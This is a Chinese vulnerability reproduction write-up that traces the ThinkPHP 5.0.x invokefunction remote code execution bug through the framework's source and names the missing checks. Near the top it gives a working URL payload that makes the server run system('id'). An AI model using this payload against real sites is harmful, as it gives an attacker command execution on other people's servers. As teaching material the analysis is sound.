

#利用难度简单 #漏洞复现 
# 前言


今天我要传授你们一项可怕的技术，这个技术能让你成为别人不敢惹的黑客。

具体的实现方法呢也很简单
你只需要发明时间机器穿越到2018年，然后打开一个正在跑thinkphp的网站复制粘贴这串payload
```
?s=/Index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=system
&vars[1][]=id
```


是的就这么简单，连小学生都会

# 技术阐释

如果你想搞清楚这乱码一样的东西是怎么来的，我来教你是什么原理

thinkphp是开源的，所以我们也就能读到它的源码

关于这个漏洞的php代码主要是 5 个文件
1. `App.php` — [https://github.com/top-think/framework/blob/v5.0.20/library/think/App.php](https://github.com/top-think/framework/blob/v5.0.20/library/think/App.php)
2. `Request.php` — [https://github.com/top-think/framework/blob/v5.0.20/library/think/Request.php](https://github.com/top-think/framework/blob/v5.0.20/library/think/Request.php) 
3. `Route.php` — [https://github.com/top-think/framework/blob/v5.0.20/library/think/Route.php](https://github.com/top-think/framework/blob/v5.0.20/library/think/Route.php) 
4. `Loader.php` — [https://github.com/top-think/framework/blob/v5.0.20/library/think/Loader.php](https://github.com/top-think/framework/blob/v5.0.20/library/think/Loader.php) 
5. `Config.php` — [https://github.com/top-think/framework/blob/v5.0.20/library/think/Config.php](https://github.com/top-think/framework/blob/v5.0.20/library/think/Config.php) 
## 第一步，路径

在`request.php`里，我们有这一段

```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[Config::get('var_pathinfo')])) {
            $_SERVER['PATH_INFO'] = $_GET[Config::get('var_pathinfo')];
            unset($_GET[Config::get('var_pathinfo')]);
        }
        ...
        $this->pathinfo = empty($_SERVER['PATH_INFO']) ? '/' : ltrim($_SERVER['PATH_INFO'], '/');
    }
    return $this->pathinfo;
}
```

关键部分
```php

        if (isset($_GET[Config::get('var_pathinfo')])) {
            $_SERVER['PATH_INFO'] = $_GET[Config::get('var_pathinfo')];
            unset($_GET[Config::get('var_pathinfo')]);
        }
```
看起来一坨

`::` 是静态调用，就有点类似于 `#include` 头文件的感觉，但还是跟头文件有点区别
如果你去 `config.php` 里搜 `get` 的话，你就会搜到关于 `get` 的定义

```php
public static function get($name = null, $range = '')
    {
    .....
    }
```
总之，`get` 去内存里面按名字读了下，`var_pathinfo` 默认情况下用 `s`，所以我们的参数传的就是 `s`
注: 如果管理者给配置文件改了下，`s` 就要换掉了
****
回到刚才那部分

```php

if (isset($_GET[Config::get('var_pathinfo')]))
{
    $_SERVER['PATH_INFO'] = $_GET[Config::get('var_pathinfo')];
    unset($_GET[Config::get('var_pathinfo')]);
}
```
这段的大意就是去 **内存的配置数组**找这个 `pathinfo`，拿 `s` ,然后存进 ` $_server ` 这个环境数组里面，键名为 ` path_info `，然后 ` unset ` 掉 `$_GET['s']`，也就是去掉这个得到的值，就像从来没读取过一样。

```php
$this->pathinfo = empty($_SERVER['PATH_INFO']) ? '/' : ltrim($_SERVER['PATH_INFO'], '/');
```
**Q:这段在干什么？**
这段代码是从右往左读的，也就是说，机器先判断刚刚存的 ` $_SERVER['PATH_INFO'] ` 是不是空的，如果是空的，就给 `this` 身上 `pathinfo` 属性赋值 `/`，不是空的，就给 `$_SERVER['PATH_INFO']` 开头的 `/` 去掉, `ltrim ` 就是干这样的事
****
很显然如果这是一个餐馆的话，你明显不是一个老老实实吃饭的人，因为你对服务员说了
`s=/Index/\think\app/invokefunction `
经过刚刚的处理后得到
`Index/\think\app/invokefunction` 
接下来进入第二步
****
## 第二步，切分

在 `route.php` 我们能读到
```php
public static function parseUrl($url, $depr = '/', $autoSearch = false)
{
	...
    $url              = str_replace($depr, '|', $url);
    list($path, $var) = self::parseUrlPath($url);
    $route            = [null, null, null];
```
你给的地址中，出现这样的变化
```
"/Index/\think\app/invokefunction" → "|Index|\think\app|invokefunction"
```
斜杠被换成了 `|`
随后又被传进 `parseurlpath`

```php
private static function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];
    if (false !== strpos($url, '?')) {
```

`|` 又被换成了 `/`

`Index/\think\app/invokefunction`

```php
private static function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];
```

**作者为什么要这么做，原因就在他写的注释上 `// 分隔符替换 确保路由定义使用统一的分隔符`**
`$depr` 本身是可配置的（`pathinfo_depr`)，可能不是 `/`，所以先统一成 `|` 再处理

```php
// 路由无效 解析模块/控制器/操作/参数... 支持控制器自动搜索
if (false === $result) {
    $result = Route::parseUrl($path, $depr, $config['controller_auto_search']);
}
```
要走 `parseUrl`，必须满足：

1. `Route::check()` 返回 `false` —— 站点没有定义能匹配这条 URL 的路由规则
2. `url_route_must` 是 `false` —— 没有开启强制路由
这属于这段的前提条件

同样在 `parseurlpath` 部分
```php
if (false !== strpos($url, '?')) {
    // [模块/控制器/操作?]参数1=值1&参数2=值2...
    $info = parse_url($url);
    $path = explode('/', $info['path']);
    parse_str($info['query'], $var);
} elseif (strpos($url, '/')) {
    // [模块/控制器/操作]
    $path = explode('/', $url);
} else {
    $path = [$url];
}
return [$path, $var];
```
**`strpos ` 在非 0 处找到了 `/`，进入分支，切分 `explode`，被拆成数组**
```
"Index/\think\app/invokefunction" → ["Index", "\think\app", "invokefunction"]
```
随后把切好的数组返回(`return [$path,$var];`)
紧接着，parseurl 还要再来一层包装
```php
// 封装路由
$route = [$module, $controller, $action];
...
return ['type' => 'module', 'module' => $route];
```

`["Index", "\think\app", "invokefunction"] ` 就被分成了三部分，而最重要的就是第二部分 `\think\app`


****
## 第三步，new 一个新类


`parseUrl` 返回的数组，经 `routeCheck` → `run` (`run方法`) → ` exec ` 三层传递，
最后 ` $dispatch['module'] ` 被传给 ` App::module() `
取 `$result[1]` 我们就得到了
`\think\app` 
紧接着
```php
// exec()（App.php:453）
$data = self::module(
    $dispatch['module'],     // ← 传的是整个三元数组
    $config,
    ...
);
```
****
在 `app.php` 文件里, `module` 函数
```php
public static function module($result, $config, $convert = null)
    {
        if (is_string($result)) {
            $result = explode('/', $result);
        }
```
注:这里的 `is_string` 是其他分支才用的，我们这里并没有被切分两遍
```php
// 获取控制器名
$controller = strip_tags($result[1] ?: $config['default_controller']);
$controller = $convert ? strtolower($controller) : $controller;
```
在这里，变量名发生改变


在 `app.php` 文件里，`module` 函数出现
```php
try {

    $instance = Loader::controller(
        $controller,
        $config['url_controller_layer'],
        $config['controller_suffix'],
        $config['empty_controller']
    );
```


在 `loader.php` 里
```php
public static function controller($name, $layer = 'controller', $appendSuffix = false, $empty = '')
{
    list($module, $class) = self::getModuleAndClass($name, $layer, $appendSuffix);

    if (class_exists($class)) {
        return App::invokeClass($class);
    }
    if ($empty) {
        $emptyClass = self::parseClass($module, $layer, $empty, $appendSuffix);

        if (class_exists($emptyClass)) {
            return new $emptyClass(Request::instance());
        }
    }
    throw new ClassNotFoundException('class not exists:' . $class, $class);
}
```
`controller` 只是检查这个类(class)存不存在，另外就是调用 `invokeclass`

```php
protected static function getModuleAndClass($name, $layer, $appendSuffix)
{
    if (false !== strpos($name, '\\')) {
        $module = Request::instance()->module();
        $class  = $name;
    } else {
    ...
    $class = self::parseClass($module, $layer, $name, $appendSuffix);
```
`parseclass` 返回 
```php
return App::$namespace . '\\' .
    ($module ? $module . '\\' : '') .
    $layer . '\\' . $path . $class;
```
也就是说，我们刚刚传入 `\think\app`
因为 `\think\app` 带反斜杠，我们不走 `parseclass`
走另一个分支

回到 `controller`，因为这个类存在，所以调用 `invokeclass`

```php
public static function invokeClass($class, $vars = [])
{
    $reflect     = new \ReflectionClass($class);
    $constructor = $reflect->getConstructor();
    $args        = $constructor ? self::bindParams($constructor, $vars) : [];

    return $reflect->newInstanceArgs($args);
}
```

简单来讲这段代码就是创造一个新类，`reflectionclass` 是找一个类名, `getconstructor` 是查构造函数，new,造出实例

回到 `module`
```php
$instance = Loader::controller($controller, ...);
```
到这步，`$instance` 就是一个新对象 `think\app` 了

新对象已经造好，是时候调用里面的方法了

****

**另外提一嘴，`think\app` 就是  `app.php`，因为在一开始写到 `namespace think;`
`class App`**


## 第四步，invokefunction

又回到刚刚的 `module`
```php
// 获取操作名
$actionName = strip_tags($result[2] ?: $config['default_action']);
...
// 获取当前操作名
$action = $actionName . $config['action_suffix'];
```
`$action` 是 `invokefunction` (按照我们的 payload)，因为 `$config['action_suffix']` 在默认配置下是空字符串
```php
$vars = [];
if (is_callable([$instance, $action])) {
    // 执行操作方法
    $call = [$instance, $action];
    // 严格获取当前操作方法名
    $reflect    = new \ReflectionMethod($instance, $action);
    $methodName = $reflect->getName();
    $suffix     = $config['action_suffix'];
    $actionName = $suffix ? substr($methodName, 0, -strlen($suffix)) : $methodName;
    $request->action($actionName);
```

检查这个函数能否被调用，`$instance` 在之前已经造了个新类，`action` 又是 `invokefunction`
最后
```php
return self::invokeMethod($call, $vars);
```
出现: `invokeFunction` 在这时被调起，`system('id')` 随即执行，命令输出被打印出来
`$args` 不是现成的，是 `bindParams` 按 `$reflect` 的形参名、从请求参数里挑出来拼成的
我们 URL 里的 `function=` 和 `vars=` 只是原料，不是 `$args` 本身

`invokeMethod`
```php
public static function invokeMethod($method, $vars = [])
{
    if (is_array($method)) {
        $class   = is_object($method[0]) ? $method[0] : self::invokeClass($method[0]);
        $reflect = new \ReflectionMethod($class, $method[1]);
    } else {
        // 静态方法
        $reflect = new \ReflectionMethod($method);
    }
    $args = self::bindParams($reflect, $vars);
    self::$debug && Log::record('[ RUN ] ' . $reflect->class . '->' . $reflect->name . '[ ' . $reflect->getFileName() . ' ]', 'info');
    return $reflect->invokeArgs(isset($class) ? $class : null, $args);
}
```
通过 `invokemethod` 来实现绑定参数执行方法
`bindparams`
```php
private static function bindParams($reflect, $vars = [])
{
    // 自动获取请求变量
    if (empty($vars)) {
        $vars = Config::get('url_param_type') ?
        Request::instance()->route() :
        Request::instance()->param();
    }
    $args = [];
    if ($reflect->getNumberOfParameters() > 0) {
        // 判断数组类型 数字数组时按顺序绑定参数
        reset($vars);
        $type = key($vars) === 0 ? 1 : 0;
        foreach ($reflect->getParameters() as $param) {
            $args[] = self::getParamValue($param, $vars, $type);
        }
    }
    return $args;
}
```
得到 `args` = `['call_user_func_array', ['system', ['id']]]`
`invokeFunction` 的签名是 `invokeFunction($function, $vars = [])`；去掉 `$` 就是字符串 `'function'` 和 `'vars'`
所以 payload 传参用 `function` 和 `vars` 传参，但最终的成品是 `args`

执行了 `invokeFunction`，并给其传入了参数 1 `call_user_func_array`，参数 2 `['system',['id']]`，相当于执行了 `call_user_func_array('system', ['id'])`
漏洞原因: `module` 里只检查了 `[$instance, $action]` **能不能被调**，没检查这个动作**该不该由外部决定**


# 汇总

## 三处缺口

### 1.缺过滤
```php
// Loader.php:543
if (false !== strpos($name, '\\')) { $class = $name; }
```
只做了反斜杠判断,没做对 `$name` 的身份验证

### 2.调用缺口

```php
// App.php:585
if (is_callable([$instance, $action])) {
```
只做了对方法能不能调用的判断，没判断这个动作该不该由外部请求决定

### 3.数组缺口

```php
// App.php:372
if (empty($vars)) {
    $vars = ... Request::instance()->param();
}
```
它只检查了参数是不是空的，没检查这些参数该不该由外部请求填


## 小结

环境来源于 `vulhub`，具体怎么搭环境我就不演示了，如果你有这方面的需求的话可以去网上搜或者问 `ai`


技术阐释可能会很枯燥，但我相信你能看懂的
